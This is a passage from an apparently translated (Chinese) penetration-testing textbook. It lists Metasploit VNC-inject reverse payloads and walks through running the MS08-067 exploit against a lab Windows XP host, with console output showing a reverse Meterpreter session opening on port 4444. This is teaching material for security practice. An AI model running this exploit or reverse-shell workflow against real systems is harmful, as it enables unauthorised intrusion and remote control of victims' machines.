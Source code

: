 ```
*--snip--*
   windows/vncinject/reverse_ipv6_http                  normal  VNC Server (Reflective Injection),
                                                                  Reverse HTTP Stager (IPv6)
   windows/vncinject/reverse_ipv6_tcp                   normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager (IPv6)
--*snip*--
   windows/vncinject/reverse_tcp                        normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager
   windows/vncinject/reverse_tcp_allports               normal  VNC Server (Reflective Injection),
                                                                  Reverse All-Port TCP Stager
   windows/vncinject/reverse_tcp_dns                    normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager (DNS)
```

如果你忘记设置有效载荷，你可能会发现，奇迹般地，攻击模块会自动选择默认的有效载荷及相关设置并运行。不过，你应该养成手动设置有效载荷及其选项的习惯，因为默认选项不一定适合你的需求。

### 测试运行

让我们保持简单，首先使用默认有效载荷选项发送攻击模块，以便查看其工作原理。输入 **`exploit`** 告诉 Metasploit 运行该模块，如示例 4-8 所示。

示例 4-8. 运行攻击

```
msf  exploit(ms08_067_netapi) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:1334) at
2015-08-31 07:37:05 -0400

meterpreter >
```

如你所见，我们最终得到了一个 Meterpreter 会话。Meterpreter 是 *meta-interpreter* 的缩写，是 Metasploit 独有的有效载荷。我常常把它形容为“类 shell 的超级版本”。它可以做任何命令 shell 能做的事，甚至更多。我们将在第十三章深入讨论 Meterpreter，但为了提前了解，可以在 Meterpreter 控制台中输入 **`help`** 查看 Meterpreter 的命令列表。

### 注意

另一个关于默认选项的注意事项是，Metasploit 使用端口 4444。在我们的实验室中，这没有问题，工作得很好。然而，在实际的攻击中，如果客户使用了即使是最原始的入侵防护软件，它可能会注意到端口 4444 上的流量，并说：“嘿，你是 Metasploit，快走！”然后断开你的连接。

现在，让我们关闭 Meterpreter 会话，进一步了解如何手动选择有效载荷。尽管 Meterpreter 非常有用，但你可能会发现自己处于无法使用它的场景。输入 **`exit`** 退出 Meterpreter 提示符，返回到常规的 Metasploit 控制台。

```
meterpreter > **exit**
[*] Shutting down Meterpreter...

[*] Meterpreter session 1 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```
